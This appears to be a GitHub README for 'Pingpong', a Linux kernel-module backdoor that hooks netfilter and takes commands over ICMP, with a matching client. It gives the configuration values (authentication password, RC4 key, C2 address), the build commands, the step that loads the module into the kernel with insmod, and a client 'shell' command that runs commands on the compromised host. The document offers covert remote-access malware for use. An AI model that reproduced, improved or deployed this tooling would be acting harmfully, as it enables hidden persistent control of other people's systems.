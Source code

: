 # Pingpong 
Pingpong is a backdoor that communicates entirely on icmp.

The ko directory contains code to compile a kernel module backdoor that hooks netfilter and listens for incoming icmp traffic. The client provided implements the custom protocol to communicate with the backdoor.

# Installation
Some configurations have to be added manually inside of each respective config.h file.
## KO
### Configuration
```c
#define C2_ADDR "<IP>" // Implementation to be added in the future
#define PASSWORD "<PASSWORD>" // The backdoor will only communicate with clients that have auth:ed with this password
#define RC4_KEY ((uint8_t[]){0xde, 0xad, 0xbe, 0xef, 0xde, 0xad, 0xbe, 0xef}) // RC4_key, must match client
#define RC4_KEY_LENGTH 8 // must match the length of RC4_KEY byte array
```
### Compilation
Compilation has been tested on a debian 6.6.9-amd64 kernel.
#### Installing kernel headers
```bash
sudo apt update
sudo apt install build-essential
sudo apt-get install linux-headers-$(uname -r)
```
#### Compiling program
```bash
cd ko
make
sudo insmod pingpong.ko
```
## Client
### Configuration
```c
#define SRC_ADDR "<IP>" // Your Ip address
#define DST_ADDR "<IP>" // backdoors Ip address
#define INTERFACE "<INTERFACE>" // interface that your Ip address is bound to, eg 'eth0'
#define PASSWORD "<PASSWORD>" // Matching password as in the config on the server
#define OUTPUT_FILE "<PATH>" // When the 'shell' command is invoked, output is stored (and removed) to this file on the server
#define RC4_KEY ((uint8_t[]){0xde, 0xad, 0xbe, 0xef, 0xde, 0xad, 0xbe, 0xef}) // RC4_key, must match ko
#define RC4_KEY_LENGTH 8 // must match the length of RC4_KEY byte array
```
### Compilation
```bash
cd client
make
sudo ./main
```

# TODO
* Add 'upload' command 
* Better encryption traffic